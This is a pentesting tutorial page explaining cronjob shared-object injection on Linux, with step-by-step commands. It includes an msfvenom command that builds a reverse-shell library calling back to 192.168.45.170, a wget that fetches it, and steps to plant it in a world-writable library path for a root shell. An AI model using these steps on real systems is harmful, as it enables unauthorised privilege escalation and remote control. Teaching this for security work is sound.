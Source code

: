 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Cronjob SO Injection

Cronjob Shared Object Injection is a privilege escalation technique that exploits how scheduled tasks run by the cron daemon handle shared library loading. Cronjobs executed as `root` or privileged users may inherit environment variables such as `LD_LIBRARY_PATH`, which instructs the dynamic linker where to search for shared libraries. If this path includes directories writable by non-privileged users, or if it points to missing or replaceable libraries, an attacker can inject a malicious shared object (`.so` file). When the cronjob runs, it loads the attacker-controlled shared library, resulting in code execution with the cronjob’s privileges.

```bash
# Show the contents of the system-wide crontab configuration
$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
# Non-standard library directories
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""
  *  *  *  *  * root       /usr/bin/log-sweeper # Runs every minute
  
# List the details of the log-sweeper binary
$ ls -la /usr/bin/log-sweeper
-rwxr-xr-x. 1 root root 8800 Sep  4  2020 /usr/bin/log-sweeper
```

The directories listed in `LD_LIBRARY_PATH` include `/usr/local/lib/utils` containing `utils.so` and `/usr/local/lib/dev`, which is world-writable:

{% code overflow="wrap" %}
```bash
# Check the permissions of the target directories
$ ls -ld /usr/local/lib/utils
drwxr-xr-x. 2 root root 22 Sep  4  2020 /usr/local/lib/utils

$ ls -ld /usr/local/lib/dev
drwxrwxrwx 2 root root 6 Sep  7  2020 /usr/local/lib/dev # World-writable

# List the directory's contents
$ ls -la /usr/local/lib/utils
-rwxr-xr-x. 1 root root 8248 Sep  4  2020 utils.so
```
{% endcode %}

Running `ldd` on `log-sweeper` shows it requires `utils.so`, but the linker fails to find it due to a missing or misconfigured library:

{% hint style="warning" %}
The `ldd` command shows `utils.so => not found` because it only searches the system’s standard library paths and does not consider the `LD_LIBRARY_PATH` environment variable. Since `utils.so` is located in a non-standard directory specified by `LD_LIBRARY_PATH`, `ldd` cannot locate it. However, when the cronjob runs, it inherits the custom `LD_LIBRARY_PATH`, allowing the dynamic linker to find and load `utils.so` from the specified directories.
{% endhint %}

```bash
# List the shared library dependencies for log-sweeper
$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007ffe88d95000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007ff9e29e0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ff9e2dae000)
```

The missing `utils.so` in the default library paths can be hijacked by placing a malicious shared object with the same name in a writable directory that appears earlier in the `LD_LIBRARY_PATH`. This allows loading the attacker’s payload instead of the legit library.

{% code overflow="wrap" %}
```bash
# Generate a reverse shell shared object
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=80 -f elf-so -o revshell.so
```
{% endcode %}

Next, the malicious library can be transferred to the target, assigned executable permission and copied to `/usr/local/lib/dev`:

{% hint style="warning" %}
The cronjob executes `/usr/bin/log-sweeper` with an `LD_LIBRARY_PATH` that includes both `/usr/local/lib/dev` and `/usr/local/lib/utils`. Although the legitimate `utils.so` resides in `/usr/local/lib/utils`, the dynamic linker searches the directories in order and loads the first matching library it finds. Since `/usr/local/lib/dev` appears before `/usr/local/lib/utils` and is world-writable, the malicious library will be loaded instead of the legitimate one, enabling code execution with the cronjob’s privileges.
{% endhint %}

```bash
# Download the malicious shared object and rename it to utils.so
$ wget http://192.168.45.170/revshell.so -O utils.so

# Set executable permissions on utils.so
$ chmod +x utils.so

# Copy the malicious shared object to the writable library path directory
$ cp utils.so /usr/local/lib/dev/

# Confirm the file is in place
$ ls /usr/local/lib/dev/
utils.so
```

Triggering the cronjob execution will load the malicious `utils.so`, spawning a reverse `root` shell.
